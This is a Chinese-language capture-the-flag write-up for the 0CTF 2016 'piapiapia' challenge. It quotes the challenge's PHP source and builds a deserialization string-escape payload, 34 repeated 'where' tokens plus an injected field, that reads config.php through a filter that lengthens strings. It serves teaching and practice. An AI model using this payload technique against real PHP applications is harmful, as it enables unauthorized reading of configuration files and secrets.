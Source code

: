 # [0CTF 2016]piapiapia

## 知识点

`php反序列化字符串逃逸(变长)`

`php代码审计`

## 解题

首先进入题目首页，只有一个登录框，扫目录的时候扫到了`www.zip`，看了下代码在`profile.php`发现有反序列化和读取文件，而且最后会将内容以`base64`编码输出

```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}
	else {
		$profile = unserialize($profile);
		$phone = $profile['phone'];
		$email = $profile['email'];
		$nickname = $profile['nickname'];
		$photo = base64_encode(file_get_contents($profile['photo']));
?>
```

发现有反序列化，找一下如何利用，在`update.php`中找到利用方法
```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');
	}
	if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');

		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}
?>
```
发现`$profile['photo'] = 'upload/' . md5($file['name']);`，已经被固定，发现前面的参数`nickname`的`preg_match`可以用`数组传值`绕过，猜测通过`反序列化字符串逃逸`来攻击，找一下有没有能让字符串替换的地方，跟进`$user->update_profile($username, serialize($profile));`

```php
class User extends mysql {
    public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}

    public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
}
```

发现传入`序列化`后的值字符串长度会增加，那么我们就可以进行`反序列化字符串逃逸(变长)`,先尝试读取`config.php`，构造`payload`

```php
<?php
$profile['phone'] = '13312345678';
$profile['email'] = '1@163.com';
$profile['nickname'] = ['123'];      // 数组绕过，所以构造数组，不然后续会少一个字符导致逃逸失败
$profile['photo'] = 'config.php';

echo serialize($profile);
```

可以参考[我以前的博客](https://cmacckk.github.io/2021/06/05/phpUnserialize/#php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8%E5%8F%98%E9%95%BF)

![](img/[0CTF2016]piapiapia-3.png)

可以看到，需要逃逸的字符串长度是`34`,从`where`变到`hacker`每次增加一个字符，所以需要`34`个`where`来拼接

![](img/[0CTF2016]piapiapia-4.png)

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

然后`bp`传值之后到`index.php`的源码中找到`base64`值解码即可获得`config.php`文件的内容

![](img/[0CTF2016]piapiapia-5.png)

![](img/[0CTF2016]piapiapia-6.png)

![](img/[0CTF2016]piapiapia-7.png)

![](img/[0CTF2016]piapiapia-8.png)